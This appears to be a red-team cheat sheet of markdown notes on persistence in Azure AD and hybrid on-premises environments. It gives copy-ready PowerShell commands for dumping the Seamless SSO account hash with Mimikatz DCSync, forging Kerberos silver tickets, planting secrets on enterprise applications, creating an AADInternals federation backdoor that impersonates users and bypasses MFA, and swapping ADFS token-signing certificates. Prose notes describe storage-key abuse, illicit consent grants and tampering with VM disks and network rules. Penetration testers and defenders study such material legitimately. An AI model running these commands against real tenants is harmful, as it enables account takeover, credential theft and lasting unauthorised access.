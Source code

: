 # Persistence

- It is recommended by Microsoft to join the Azure AD Connect server to the on-prem AD.
- This means that the persistence mechanisms for on-prem (like Golden Ticket, Silver Ticket, ACL Backdoors and others) that provide us either DA on the on-prem or local admin on the Azure AD connect server will allow to get GA on Azure AD on demand!
  - For PHS, we can extract the credentials
  - For PTA, we can install the agent
  - For Federation, we can extract the certificate from ADFS server using DA

## Hybrid identity - Seamless SSO

- Seamless SSO is supported by both PHS and PTA.
- If seamless SSO is enabled, a computer account AZUREADSSOC is created in the on-prem AD.
- Password/key of the AZUREADSSOACC never changes.

### Todo if AZUREADSSOCis found

#### Get NTLM hash of AZUREADSSOC account

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\azureadssoacc$ /domain:<DOMAIN> /dc:<DC NAME>"'
```

#### Create a silver ticket

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:<USERNAME> /sid:<SID> /id:1108 /domain:<DOMAIN> /rc4:<HASH> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"' 
```

## Add credentials to enterprise applications

### Todo If Enterprise are aivaiable

#### Check if secrets (application passwords) can be added to all enterprise applications

```powershell
. .\Add-AzADAppSecret.ps1
Add-AzADAppSecret -GraphToken $graphtoken -Verbose
```

#### Use the secret to autheticate as service principal

```powershell
$password = ConvertTo-SecureString '<SECRET>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<ACCOUNT ID>', $password)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant <TENANT ID>
```

### Check what resources service principal can access

```powershell
Get-AzResource
```

## Federation

### Creating a trusted domain

If we have GA privileges on a tenant, we can add a new domain (must be verified), configure its authentication type to Federated and configure the domain to trust a specific certificate (any.sts in the below command) and issuer.

#### Add a domain with AADInternal

```powershell
Import-Module .\AADInternals.psd1
ConvertTo-AADIntBackdoor -DomainName <DOMAIN>
```

#### Get immutableID of the user that we want to impersonate. Using Msol module

```powershell
Get-MsolUser | select userPrincipalName,ImmutableID
```

#### Access any cloud app as the user

```powershell
Open-AADIntOffice365Portal -ImmutableID <ID> -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA $true
```

### Token Signing Certificate

- With DA privileges on on-prem AD, it is possible to create and import new Token signing and Token Decrypt certificates that have a very long validity.

#### Create new certs, add them to ADFS, Disable auto reollver and restart the service

```powershell
Import-Module .\AADInternals.psd1
New-AADIntADFSSelfSignedCertificates
```

#### Update the certificate information with AzureAD

```powershell
Update-AADIntADFSFederationSettings -Domain <DOMAIN>
```

## Storage account access keys

- We already know that keys provide root equivalent privileges on an storage account.
- There are two access keys and they are NOT rotated automatically (unless a key vault is managing the keys).
- This, of course, provides neat persistent access to the storage account.
- We can also generate SAS URL (including offline minting) using the access keys.

## Application and service principals

- With privileges of Application Administrator, GA or a custom role with microsoft.directory/applications/credentials/update permissions, we can add credentials (secret or certificate) to an existing application.
- We can also add a new application that has high permissions and then use that for persistence.
- If we have GA privileges, we can create an application with the Privileged authentication administrator role - that allows to reset password of Global Administrators.

### Todo if we have GA privileges or a custom role with microsoft.directory/applications/credentials/update permissions

#### Sign in as a service principal account

```powershell
$passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<ACCOUNT ID>", $passwd) 
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant <ID>
```

#### For certificate based authentication

```powershell
Connect-AzAccount -ServicePrincipal -Tenant <ID> -
CertificateThumbprint <Thumbprint> -ApplicationId <ID>
```

## Illicit Consent Grant

- We can register an application (only for the target tenant) that needs high impact permissions with admin consent - like sending mail on a user's behalf, role management etc.

## Azure VMs and NSGs

- OS level persistence on an Azure VM where we have remote access is very useful.
- Azure VMs also support managed identity so persistence on any such VM will allow us access to additional Azure resources.
- We can also create snapshot of disk attached to a running VM. This can be used to extract secrets stored on disk (like SAM hive for Windows).
- It is also possible to attach a modified/tampered disk to a turned-off VM. For example, add a local administrator!
- Couple this with modification of NSGs to allow access from IPs that we control!

## Custom Azure AD roles

- If we have GA in a tenant, we can modify a custom role and assign that to a user that we control.
- Take a look at the permissions of the built-in administrative roles, we can pick individual actions. It is always helpful to go for minimal privileges.

## Deployment Modification

- If we have persistent access to external resources like GitHub repos that are a part of deployment chain, it will be possible to persist in the target tenant.
